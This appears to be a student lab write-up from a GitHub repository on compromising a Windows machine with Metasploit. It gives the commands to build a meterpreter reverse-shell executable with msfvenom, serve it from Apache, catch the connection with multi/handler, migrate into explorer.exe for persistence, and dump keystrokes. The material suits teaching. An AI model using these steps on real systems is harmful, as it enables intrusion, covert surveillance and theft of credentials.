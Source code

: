 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

# program:
Find the attackers ip address using ifconfig

# OUTPUT:
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/c7506af8-dcfc-479d-b9ad-c6cdc46dc592)


Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/1578b1c8-17f6-43f0-9719-cb618319c915)


copy the fun.exe into the apache /var/www/html folder 
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/2f628641-af6f-4735-ae7f-0cd79139df96)


Start apache server sudo systemctl apache2 start

# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/9d055888-253c-4747-b891-3617c562762d)



Check the status of apache2 
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/168c5fb2-3306-4eb0-be8f-9685cf542500)


# Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/4d8e06f7-ab07-4481-8687-70dd289327fc)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/2f71d107-4226-41d5-8fcd-737d1d31f671)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit 
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/5ff3917c-2ce4-4eb2-9100-9ef0f8e1c8f6)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/4013ba6a-94a1-43cb-b0e3-5652c7088ed1)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/6d8bf471-6b04-4db5-bc8e-1731b07b14d7)


keyscan_dump Shows the keystrokes captured so far 
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/58b0c117-aab0-4bbd-b11e-461b9dc7bffe)




## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

